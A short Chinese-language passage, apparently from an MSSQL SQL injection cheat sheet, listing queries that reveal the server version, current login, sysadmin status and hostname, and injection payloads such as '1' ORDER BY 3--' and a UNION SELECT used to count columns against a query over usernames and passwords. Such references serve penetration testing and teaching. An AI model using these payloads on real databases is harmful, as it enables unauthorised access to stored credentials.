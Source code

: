 

**版本&amp;数据库当前用户&amp;主机名**

**版本**

```
select @@VERSION
```

如果是2012的数据库返回为True

```
SELECT * FROM Users WHERE id = '1' AND @@VERSION LIKE '%2012%';
```

**数据库当前用户**

[![](https://p4.ssl.qhimg.com/t01c646303c3577fb19.png)](https://p4.ssl.qhimg.com/t01c646303c3577fb19.png)

**实例：**



```
Return current user:
SELECT loginame FROM master..sysprocesses WHERE spid=@@SPID;
Check if user is admin:
SELECT (CASE WHEN (IS_SRVROLEMEMBER('sysadmin')=1) THEN '1' ELSE '0' END);
```

**主机名**

```
select @@SERVERNAME
```



**库&amp;表&amp;列**

**库名**

[![](https://p5.ssl.qhimg.com/t0176538d98f83f660e.png)](https://p5.ssl.qhimg.com/t0176538d98f83f660e.png)

**测试列数**

```
ORDER BY n+1;
```

**实例:**



```
query: SELECT username, password FROM Users WHERE id = '1';
1' ORDER BY 1-- True
1' ORDER BY 2-- True
1' ORDER BY 3-- False - 查询使用了2列
-1' UNION SELECT 1,2--  True
GROUP BY / HAVING
```
